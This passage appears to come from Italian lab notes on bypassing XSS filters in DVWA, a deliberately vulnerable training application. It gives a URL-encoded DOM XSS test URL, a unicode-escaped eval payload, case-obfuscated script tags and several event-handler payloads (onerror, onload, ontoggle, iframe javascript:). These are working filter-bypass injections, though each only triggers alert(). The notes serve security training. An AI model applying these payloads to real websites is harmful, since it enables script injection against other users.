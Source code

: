 **Mappatura caratteri**:
- `&lt;` = `<`
- `&gt;` = `>`
- `&#60;` = `<` (decimale)
- `&#62;` = `>` (decimale)

**URL di Bypass Testato**:
```url
http://192.168.1.100/DVWA/vulnerabilities/xss_d/?default=English#%3Cscript%3Ealert(1)%3C/script%3E
```

**Risultato**: Il payload con encoding viene eseguito e stampa "1" nell'alert DOM.

### 2. Unicode / Hex Encoding

**Obiettivo**: Nascondere parole pericolose come "alert" o "script" usando unicode escaping.

**Meccanismo**: Alcune funzioni JavaScript come `eval()` interpretano codici Unicode.

**Esempio Testato**:
```javascript
<script>eval('\u0061lert(1)')</script>
```

**Spiegazione**: `\u0061` = 'a', quindi `\u0061lert` = `alert`

**Uso**: Utile quando la blacklist blocca "alert" ma non rileva le versioni codificate.

### 3. Case Obfuscation

**Obiettivo**: Bypassare filtri case-sensitive che cercano `<script>` in minuscolo.

**Meccanismo**: HTML è case-insensitive per i tag, quindi `<ScRiPt>` è interpretato ugualmente.

**Esempi**:
```html
<ScRiPt>alert(1)</ScRiPt>
<SCRIPT>alert(1)</SCRIPT>
<Script>alert(1)</Script>
```

**Uso**: Efficace se il filtro cerca solo `<script>` e non `<ScRiPt>`.

### 4. Event Handler Injection

**Obiettivo**: Evitare l'uso di `<script>` e sfruttare altri elementi con attributi eseguibili.

**Event Handler Disponibili**:
- `onerror` - Si attiva quando un elemento fallisce nel caricamento
- `onload` - Si attiva quando un elemento viene caricato

**Payload Pratici Testati su DVWA Stored XSS**:
```html
</p><script>alert("XSS OK")</script>
<img src=x onerror=alert("IMG XSS")>
<svg onload=alert("SVG XSS")>
<iframe src="javascript:alert('iframe')"></iframe>
<details open ontoggle=alert('toggle')>
```

---
